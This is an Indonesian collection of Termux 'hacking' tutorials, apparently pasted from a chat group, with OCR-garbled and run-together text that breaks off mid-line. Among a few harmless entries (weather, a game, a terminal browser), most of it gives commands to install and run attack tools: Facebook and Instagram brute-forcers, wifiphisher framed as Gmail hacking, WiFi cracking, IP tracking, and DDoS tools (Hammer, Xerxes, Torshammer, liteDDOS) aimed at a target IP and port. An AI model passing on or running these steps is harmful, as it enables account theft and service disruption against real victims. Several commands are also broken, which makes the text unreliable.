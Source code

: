 23.TUTORIAL MENAMBAH FOLLOWERS&LIKE INSTAGRAM Kegunaan untuk menambah follower dan like ig pkg update pkg upgrade pkg install python2 pkg install ruby gem install lolcat pkg install git git clone https://github.com/Hanzelnutt/instabot cd instabot ls pip2 install -r requirements.txt bash instabot ============================= 24.TUTOR HACK WIFI KHUSUS ROOT apt update apt upgrade apt install git git clone https://github.com/esc0rtd3w/wifi-hacker ls cd wifi-hacker ls chmod +x wifi-hacker.sh ls ./wifi-hacker.sh ============================= 25.TOOLS xNOT_FOUND *VER1* apt update && apt upgrade pkg install git pkg install gem pkg install figlet gem install lolcat git clone https://github.com/hatakecnk/xNot_Found cd xNot_Found sh xNot_Found.sh ============================= 26.HACK FB Nih ada tutor buat lewat TERMUX buat hack FB apt update && apt upgrade apt install python apt install python2 apt install ruby apt install git apt install wget apt install curl pip2 install mechanize pip2 install requests git clone https://github.com/hnov7/mbf *tunggu hingga selesai,jika sudah selesai *silahkan buka tab baru atau new session lalu ketik : cd mbf python2 mbf.py ============================= 27.HACK GMAIL apt-get update && apt-get upgrade  apt-get install git  apt-get install python python-pip python-setuptools  pip install scapy  git clone https://github.com/wifiphisher/wifiphisher.git cd wifiphisher< python setup.py install  cd wifiphisher  python wifiphisher ============================= 28.BERMAIN MOON-BUGGY pkg install moon-buggy moon-buggy ============================= 29.PERKIRAAN CUACA curl http://wttr.in/ (lokasi)  ============================= 30.BROWSING DI TERMUX pkg install w3m w3m www.google.com Linknya bsa diubah ============================= [8/10 19.49] Yovis Si Wibub: Apt update Apt upgrade Apt install mechanize Apt install git git clone http://github.com/hnov7/mbf cd mbf python2 mbf. py Mbf tanpa username dan password. Jdi tinggl make aja [8/10 19.49] Yovis Si Wibub: --------------------------TOTUR MBF-----------------------$ pkg update && pkg upgrade $ pkg install python2 $ pip2 install mechanize ‌$ git clone https://github.com/pirmansx/mbf Cara Menjalankannya : $ ls $ cd mbf $ python2 MBF.py  [9/10 17.25] ‌*~I⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟i⃟: Memper Cantik/Melihat V.Android Termux $ pkg update && pkg upgrade $ pkg install ruby cowsay toilet figlet $ pkg install neofetch $ pkg install nano $ gem install lolcat $ cd ../usr/etc $ nano bash.bashrc cowsay -f eyes Cyber , lolcat toilet -f standard Indonesia -F gay neofetch date , lolcat ✓ Hack FB rombongan $ apt update && apt upgrade $ pkg install python2 git $ pip2 install mechanize $ git clone http://github.com/pirmansx/mbf $ ls $ cd mbf $ python2 MBF.py ✓ Hack FB ngincer $ Apt update ( Enter ) $ Apt upgrade ( Enter ) $ Apt install python2 ( Enter ) $ pip2 install urllib3 chardet certifi idna requests ( Enter ) $ apt install openssl curl ( Enter ) $ pkg install libcurl ( Enter ) $ ln /sdcard ( Enter )  $ cd /sdcard ( Enter ) $ python2 fbbrute.py ( Enter ) ✓ Hack Gmail apt-get update && apt-get upgrade $ apt-get install git $ apt-get install python python-pip python-setuptools $ pip install scapy $ git clone https://github.com/wifiphisher/wifiphisher.git $ cd wifiphisher< $ python setup.py install $ cd wifiphisher $ python wifiphisher  Nih yang mau hack WiFi Khusus root $apt update $apt upgrade $apt install git $git clone https://github.com/esc0rtd3w/wifi-hacker $ls $cd ‌Ni KUMPULAN TUTOR TERMUX [X SCREW UP X] *HACK INSTAGRAM* ( sosial engineering) $ apt update && apt upgrade $ pkg install python $ pkg install git  $ pkg install nano $ git clone https://github.com/avramit/instahack.git $ ls $ cd instahack $ ls $ pip install requests $ cd instahack $ nano pass.txt $ cat pass.txt $ ls $ python hackinsta.py Localizar ip Apt install python git git clone https://github.com/maldevel/IPGeoLocation.git cd IPGeoLocation chmod +x ipgeoLocation.py pip install -r requirements.txt python ipgeolocation.py -m python ipgeolocation.py -t http://www.google.com Lacak IP git clone https://github.com/maldevel/IPGeolocation cd IPGeolocation chmod +x ipgeolocation.py pip install -r requirements.txt python ipgeolocation.py -m python ipgeolocation.py -t IP yang ingin dilacak TOOL DDOS VIA TERMUX 1. Hammer $ pkg update (tekan enter) $ pkg upgrade (tekan enter) $ pkg install python (tekan enter) $ pkg install git (tekan enter) $ git clone https://github.com/cyweb/hammer (tekan enter) $ cd hammer (tekan enter) $ python hammer.py (tekan enter) $ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)   2. Xerxes $ apt install git $ apt install clang $ git clone https://github.com/zanyarjamal/xerxes $ ls $ cd xerxes $ ls $ clang xerxes.c -o xerxes $ ls $ ./xerxes (nama website) 80 3. Torshammer $ pkg update $ pkg install git $ apt install tor $ pkg install python2 $ git clone https://github.com/dotfighter/torshammer.git $ ls  $ cd torshammer $ python2 torshammer.py 4. liteDDOS $ apt update $ apt upgrade $ pkg install git $ pkg install python2 $ git clone https://github.com/4L13199/LITEDDOS $ cd LITEDDOS $ python2 liteDDOS.py RED_HAWK tool $ apt update $ apt install git $ git clone https://github.com/Tuhinshubhra/RED_HAWK $ cd RED_HAWK $ chmod +x rhawk.php $ apt install php $ ls $ php rhawk.php ‌```Install webdav ``` $ apt update && upgrade  $ apt install python2  $ pip2 install urllib3 chardet certifi idna requests  $ apt install openssl curl  $ pkg install libcurl  $ ln -s /sdcard  $ cd sdcard  $ mkdir webdav  $ cd webdav ‌Tutorial Install *Tools-B4J1N64Nv5* pkg install update pkg install git pkg install toilet pkg install figlet pip2 install lolcat git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5 cd B4J1N64Nv5 sh B4J1N64N.sh ‌cara install termux ubuntu - apt update/pkg update - apt upgrade/pkg upgrade - pkg install git - pkg install proot - pkg install wget - git clone